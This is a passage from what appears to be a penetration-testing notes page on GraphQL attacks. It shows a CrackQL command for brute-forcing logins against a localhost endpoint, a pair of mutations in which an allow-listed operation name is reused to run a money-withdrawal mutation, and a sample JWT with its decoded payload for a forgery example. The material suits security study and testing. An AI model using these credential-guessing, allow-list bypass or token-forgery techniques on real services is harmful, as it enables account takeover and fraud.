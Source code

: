```bash
    }
}
```

* Tools like **CrackQL** can automate this process.

{% code overflow="wrap" %}
```bash
python3 CrackQL.py -t http://localhost:5013/graphql -q sample-queries/login.graphql -i sample-inputs/usernames_and_passwords.csv --verbose
```
{% endcode %}

* **Bypassing Allow-Listed Operation Names**: Attackers can bypass allow lists of operation names by spoofing or changing the operation name.

{% code overflow="wrap" %}
```graphql
# The following is an example of an unauthenticated mutation. As you can see, it would allow a user to register a new user account:
mutation RegisterAccount {
    register(username: "operator", password: "password"){
        user_id
    }
}

-----------------------------------
# An example operation that could bypass authentication by using an allow-listed operation nameWe used the allowed operation name to withdraw money with a withdrawal mutation.

mutation RegisterAccount {
    withdrawal(amount: 100.00, from: "ACT001", dest: "ACT002"){
        confirmationCode
    }
}
```
{% endcode %}

* **JWT Forgery**: If JWT signatures are not correctly verified, attackers can forge valid tokens.

{% code overflow="wrap" %}
```graphql
# jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzIiwiaWF0IjoxNjU3MDQ2NjI5LCJuYmYiOjE2NTcwNDY2MjksImp0aSI6IjVkMzhkM2Y5LWNjNTUtNDcyYy1iNzRhLThiN2FlMzEyNGFlMiIsImlkZW50aXR5Ijoib3BlcmF0b3IiLCJleHAiOjE2NTcwNTM4MjksImFwaV90b2tlbiI6IkFQSV9TRUNSRVRfUEFTU1dPUkQifQ.iIQ9zMRP2bA0Yx8p7INurfC-PcVz3-KqfzEE4uQICbc

# decode
{
    "type": "access",
    "iat": 1657046629,
    "nbf": 1657046629,
    "jti": "5d38d3f9-cc55-472c-b74a-8b7ae3124ae2",
    "identity": "operator",
    "exp": 1657053829,
    "api_token":"API_SECRET_PASSWORD"
}
```
{% endcode %}

